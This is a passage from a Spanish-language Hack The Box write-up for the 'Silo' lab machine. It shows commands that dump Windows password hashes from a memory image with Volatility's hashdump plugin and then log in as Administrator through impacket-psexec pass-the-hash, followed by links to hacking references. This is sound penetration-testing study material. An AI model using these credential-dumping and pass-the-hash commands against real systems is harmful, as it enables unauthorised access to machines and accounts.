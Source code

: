 Haciendo uso del plugin `hashdump` se pueden obtener los hashes del sistema, exponiendo de esta manera una forma de acceder a la máquina como el usuario Administrator. Por medio de `./volatility_2.6_lin64_standalone -f /home/srrequiem/Documents/htb/windows/medium/silo/content/SILO-20180105-221806.dmp --profile=Win2012R2x64 hashdump`.

![Obtención de hashes](images/post_7.png)

Obteniendo acceso haciendo uso del hash con `impacket-psexec Administrator@10.10.10.82 -hashes :9e730375b7cbcebf74ae46481e07b0c7`.

![Acceso como Administrator](images/post_8.png)

# Referencias

- [Hack Tricks - Pentesting Oracle TNS Listener](https://book.hacktricks.xyz/network-services-pentesting/1521-1522-1529-pentesting-oracle-listener).
- [odat.py](https://github.com/quentinhardy/odat).
- [0xdf Write-up](https://0xdf.gitlab.io/2018/08/04/htb-silo.html).
- [Ippsec Walkthrough](https://www.youtube.com/watch?v=2c7SzNo9uoA).
- [PayloadAllTheThings - JuicyPotato](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#juicy-potato-abusing-the-golden-privileges).
- [Binarios Juicy Potato](https://github.com/ohpe/juicy-potato/releases).
- [Releases Volatility](https://www.volatilityfoundation.org/releases).
- [Github Volatility](https://github.com/volatilityfoundation/volatility).